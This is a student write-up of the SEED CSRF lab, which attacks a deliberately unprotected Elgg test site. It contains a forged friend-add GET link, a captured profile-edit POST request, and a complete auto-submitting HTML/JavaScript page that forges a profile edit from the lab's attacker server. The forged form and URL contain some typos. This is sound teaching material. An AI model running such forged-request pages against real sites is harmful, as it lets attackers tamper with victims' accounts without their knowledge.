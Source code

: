 ### Task1: CSRF Attack using GET Request

**Part 1: Investigation**

Using the Firefox-tool **LiveHTTPHeaders**, Boby is able to get the URL for adding a friend.

```http
GET /action/friends/add?friend=39&__elgg_ts=1508757630&__elgg_token=f35aa5585b7a4e749ae1fde51d98b33a HTTP/1.1	
```

The *__elgg_ts* and *__elgg_token* are part of a counter-measure for a **CSRF** attack. To make sure this countermeasure is not applied, we have to check to validation code server-side, which is located at:

```sh
/var/www/CSRF/elgg/engine/lib/actions.php	
```

Here we can look at the *action_gatekeeper* -function

```php
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF.
	//Comment the below return true statement to enable countermeasure.
	return true;

	if ($action === 'login') {
 ....       
```

 This confirms that the CSRF-protection is turned off. This means we can safely ignore the *__elgg_ts* and *__elgg_token*, for our URL. Since we want *Alice*(guid=39) to add Bob(guid=40), we have to change the *friend=39 -> friend=40*

```http
GET /action/friends/add?friend=40
// complete URL
http:/csrflabelgg.com/action/friends/add?friend40
```



**Part2: The attack**

![](img/bobys-message.png)

*Picture*: Now we somehow have to get Alice to click on the link. Conveniently the *CSRF Lab site* has a built in messaging system for unfriended users to talk to each other

![](img/bobys-added.png)

*Picture*: When Alice's clickes the Malicious link, a message appears in the top right corner, telling her that "Boby is added as a friend".

### Task2: CSRF Attack using POST Request

**Part1: Investigation**
To learn about how the POST Request has to be set up, we have to do a normal one, and study it's format, using **LiveHTTPHeaders**

```http
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/alice/edit
Cookie: Elgg=lo9p8k56rur2sd668ft13pfr23
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
__elgg_token=f89aa6bc5fafa4225de41785cdfadd10&__elgg_ts=1508768255
&name=Alice
&description=%3Cp%3Ehei%3C%2Fp%3E&accesslevel%5Bdescription%5D=2
&briefdescription=&accesslevel%5Bbriefdescription%5D=2
&location=&accesslevel%5Blocation%5D=2
&interests=&accesslevel%5Binterests%5D=2
&skills=&accesslevel%5Bskills%5D=2
&contactemail=&accesslevel%5Bcontactemail%5D=2
&phone=&accesslevel%5Bphone%5D=2
&mobile=&accesslevel%5Bmobile%5D=2
&website=&accesslevel%5Bwebsite%5D=2
&twitter=&accesslevel%5Btwitter%5D=2
&guid=39
...
```

*Note*: Every profile page field is represented in the *request body*, with a corresponding *accesslevel*-attribute. The exception is *name* and *guid*, which does not have an *accesslevel*-attribute.
*Note2*: All *accesslevel*=2

Let's state the value of the present URL encoded characters

| URL Encoded | UTF-8 |
| ----------- | :---- |
| %5B         | [     |
| %5D         | ]     |
| %3C         | <     |
| %3E         | >     |
| %2f         | /     |

Using the code sample from the lab document we insert the desired values

```js
<html>
<body>
<h1>This page forges an HTTP POST Request</h1>
<script type="text/javascript">
var badstring = "I support SEED project!";
var url = "http://www.csrflabelgg.com/action/profile/edit";

window.addEventListener('load', function() {

    // Part1 - Configure fields
    var fields = "" + 
    "<input type='hidden' name='name' value='Boby'>" + 
    "<input type='hidden' name='description' value='"+badstring+"'>" + 
    "<input type='hidden' name='accesslevel[description] value='2'>" + 
    "<input type='hidden' name='briefdescription' value=''>" + 
    "<input type='hidden' name='accesslevel[briefdescription]' value='2'>" + 
    "<input type='hidden' name='location' value=''>" + 
    "<input type='hidden' name='accesslevel[location]' value='2'>" + 
    "<input type='hidden' name='guid' value'39'>";

    // Part2 - Configure and launch <form> POST request
    var form = document.createElement("form");
    form.action = url;
    form.innerHTML = fields;
    form.target = "_self";
    form.method = "post";

    document.body.appendChild(form);
    form.submit();
});
</script>
</body>
</html>
```


**Part2: The attack**
An attack-server is provided on the following URL

```http
http://www.csrflabattacker.com
```

I can edit the */var/www/CSRF/Attacker/index.html* - file to inject my malicious code.

Now I only have to make sure **Boby** clicks the link.

